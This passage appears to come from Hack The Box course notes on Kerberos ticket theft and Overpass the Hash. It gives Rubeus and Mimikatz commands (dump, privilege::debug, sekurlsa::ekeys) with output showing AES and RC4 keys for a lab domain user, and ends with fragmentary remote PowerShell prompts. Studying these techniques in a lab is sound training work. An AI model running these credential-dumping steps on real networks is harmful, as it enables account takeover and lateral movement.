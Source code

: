 ```batch
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi

<SNIP>
```

### Method 2: Rubeus **dump** module

This method outputs the tickets with base64 encoding, we'll use /nowrap\` for easier copy/paste.

```batch
c:\tools> Rubeus.exe dump /nowrap
```

**Note:** To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.

***

## Forging our own tickets(Overpass the Hash/PtKey)

While the traditional Pass the Hash technique doesn't involve Kerberos, but instead relies on an NTLM hash, Overpass the Hash/ Pass the Key converts a hash/key for a domain-joined user into a full TGT. So, we'll be dumping the user's Kerberos encryption keys to get the hashes we want.

### Step1: Dump all user's Kerberos encryption keys with Mimikatz **sekurlsa::ekeys** module

```batch
c:\tools> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys
<SNIP>

Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac         b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
<SNIP>
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
